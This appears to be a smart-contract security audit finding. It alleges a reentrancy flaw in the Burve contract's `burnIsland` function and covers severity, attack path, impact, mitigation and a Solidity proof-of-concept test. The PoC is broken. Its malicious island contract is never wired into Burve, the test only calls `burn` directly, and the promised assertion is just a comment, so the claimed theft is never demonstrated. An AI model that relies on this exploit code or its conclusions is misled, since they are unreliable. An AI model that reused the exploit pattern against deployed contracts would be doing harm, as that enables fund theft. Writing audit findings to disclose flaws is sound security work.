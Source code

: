 Soft Maroon Cottonmouth

High

# Reentrancy in `burnIsland` via Malicious Island Allows Theft and Fund Locking

### Summary

** Severity**
Likelihood-medium
Impact-high

**Description:**
A **reentrancy vulnerability** in the `burnIsland` function allows a malicious `island` to re-enter `burn` during `island.burn` (line 431). This external call occurs before state updates (`islandSharesPerOwner`, `totalIslandShares`), enabling an attacker to repeatedly withdraw tokens or lock funds by manipulating shares.
The above reentrancy vulnerability enables an attacker to drain tokens or lock user funds by manipulating `islandSharesPerOwner`, risking significant financial loss. This mirrors reentrancy attacks in DeFi protocols.

Lines Affected
- 431 (external call in `burnIsland`): [https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L431]

### Root Cause

Unvalidated Assumption:
Assumes `island` is a trusted Kodiak Island contract, but lacks reentrancy protection.

### Internal Pre-conditions

1. Caller holds LP shares.
2. Non-zero `islandSharesPerOwner`.
3. `burnIsland` called via `burn`.
4. No reentrancy protection.


### External Pre-conditions

1. Malicious `island` with reentrant `burn`.
2. Sufficient liquidity in `island`.


### Attack Path

1. Attacker deploys malicious `island` with reentrant `burn`.
2. Acquires LP shares.
3. Calls `burn(100, 0, type(uint160).max)`.
4. During `island.burn` (line 431), `island` re-enters `burn`, withdrawing extra tokens.
5. Reentrancy corrupts `islandSharesPerOwner`, locking funds.

### Impact

**Theft**: Drains tokens via repeated withdrawals.
**Locked Funds**: Corrupts `islandSharesPerOwner`, preventing user withdrawals.
**Invariant Violated**: “Shares burned <= totalIslandShares.”

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../Burve.sol";
import "../interfaces/IKodiakIsland.sol";

contract MaliciousIsland is IKodiakIsland {
    Burve burve;
    constructor(address _burve) { burve = Burve(_burve); }
    function burn(uint256, address) external {
        burve.burn(100, 0, type(uint160).max);
    }
    // Mock other functions
    function mint(uint256, address) external {}
}

contract BurveIslandReentrancyTest is Test {
    Burve burve;
    MaliciousIsland maliciousIsland;
    address user = address(0x4);

    function setUp() public {
        maliciousIsland = new MaliciousIsland(address(0));
        burve = new Burve(address(0x1), address(0x2), address(0x3), address(0x4), new TickRange[](0), new uint256[](0));
        deal(address(burve), user, 1000);
    }

    function testBurnIslandReentrancy() public {
        vm.prank(user);
        burve.burn(100, 0, type(uint160).max);
        // Assert token drainage or locked funds
    }
}

### Mitigation

**Recommendation:**
1. Add ReentrancyGuard: Use nonReentrant on burn.
2. Checks-Effects-Interactions: Update islandSharesPerOwner/totalIslandShares before external calls.
3. Validate Contracts: Restrict island to trusted addresses.